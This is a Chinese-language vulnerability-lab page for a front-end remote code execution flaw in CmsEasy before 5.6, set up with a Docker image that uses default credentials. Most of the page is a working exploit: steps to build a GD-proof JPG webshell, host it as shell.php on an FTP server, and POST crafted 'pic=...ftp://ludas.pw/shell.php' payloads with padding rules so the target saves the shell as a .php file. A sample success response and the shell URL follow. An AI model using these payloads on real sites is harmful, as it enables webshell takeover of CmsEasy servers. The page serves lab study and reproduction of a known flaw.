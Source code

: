 CmsEasy< 5.6_2016-10-12 前台代码执行漏洞
---

### 漏洞信息
CmsEasy是一款基于PHP+Mysql 架构的网站内容管理系统，也是一个PHP开发平台。采用模块化方式开发，功能易用便于扩展，可面向大中型站点提供重量级网站建设解决方案。攻击者可以在网站前台进行Getshell。

详细参考：[CmsEasy前台无限制GetShell](https://xianzhi.aliyun.com/forum/read/215.html)
#####漏洞相关代码

```
/*function cut_image_action() {
    $len = 1;
    if(config::get('base_url') != '/'){
        $len = strlen(config::get('base_url'))+1;
    }
    if(substr($_POST['pic'],0,4) == 'http'){
        front::$post['thumb'] = str_ireplace(config::get('site_url'),'',$_POST['pic']);
    }else{
        front::$post['thumb'] = substr($_POST['pic'],$len);
    }
    $thumb=new thumb();
    $thumb->set(front::$post['thumb'],'jpg');
    $img=$thumb->create_image($thumb->im,$_POST['w'],$_POST['h'],0,0,$_POST['x1'],$_POST['y1'],$_POST['x2'] -$_POST['x1'],$_POST['y2'$new_name=$new_name_gbk=str_replace('.','',Time::getMicrotime()).'.'.end(explode('.',$_POST['pic']));
    $save_file='upload/images/'.date('Ym').'/'.$new_name;
    @mkdir(dirname(ROOT.'/'.$save_file));
    ob_start();
    $thumb->out_image($img,null,85);
    file_put_contents(ROOT.'/'.$save_file,ob_get_contents());
    ob_end_clean();
    $image_url=config::get('base_url').'/'.$save_file;
    //$res['size']=ceil(strlen($img) / 1024);
    $res['code']="
                    //$('#cut_preview').attr('src','$image_url');
                    $('#thumb').val('$image_url');
                    alert(lang('save_success'));
    ";
    echo json::encode($res);
}
*/
```

### 镜像信息
类型 | 用户名 | 密码
:-:|:-:|:-:
Mysql | root | root
/admin/ | admin | admin888

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:c_cmseay_1
 ```

2. 启动环境

 ```
$ docker run -d -p 8000:80 medicean/vulapps:c_cmseay_1
```
  > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

### 使用与利用
访问 `http://你的 IP 地址:端口号/`

### PoC 使用

1.特殊图片处理

>解压payload.zip，使用shell.jpg或者jpg_payload自行生成可以过gd处理的图片
>使用方法 php jpg_payload.php new.jpg 会在运行目录下生成payload_new.jpg

2.部署远程环境
>将shell.jpg上传至FTP服务器并将后缀改为php

3.获取webshell

>`http://你的 IP 地址:端口号`/index.php?case=tool&act=cut_image
post data:
pic=1ftp://`FTP地址`/shell.php&w=700&h=1120&x1=0&x2=700&y1=0&y2=1120

```
相关参数说明
w=x2=图片宽度
h=y2=图片高度
x1=y1=固定0

如果$_POST['pic']开头4个字符不是http的话，就认为是本站的文件，会从前面抽取掉baseurl（等于返回文件相对路径）所以构造的时候 如果站点不是放在根目录 则需要在前面补位strlen(base_url)+2 如果放在根目录 也需要补上1位（'/'的长度）
```


>举个栗子：

>目标站 http://www.target.com/easy/cmseasy放在easy子目录,就需要补上strlen(base_url)+2 = strlen('easy')+2=6位post数据就是
>pic=111111ftp://ludas.pw/shell.php&w=228&h=146&x1=0&x2=228&y1=0&y2=146

>目标站 http://www.target2.com/cmseasy放在web根目录 就需要补上1位post数据就是
>pic=1ftp://ludas.pw/shell.php&w=228&h=146&x1=0&x2=228&y1=0&y2=146


成功会返回
>{"code":"\r\n \/\/$('#cut_preview').attr('src','\/upload\/images\/201612\/148159258747.php');\r\n $('#thumb').val('\/upload\/images\/201612\/148159258747.php');\r\n\t\t\t\t alert(lang('save_success'));\r\n "}

拼接URL构造shell地址
>`http://你的 IP 地址:端口号`/upload/images/201612/148159258747.php

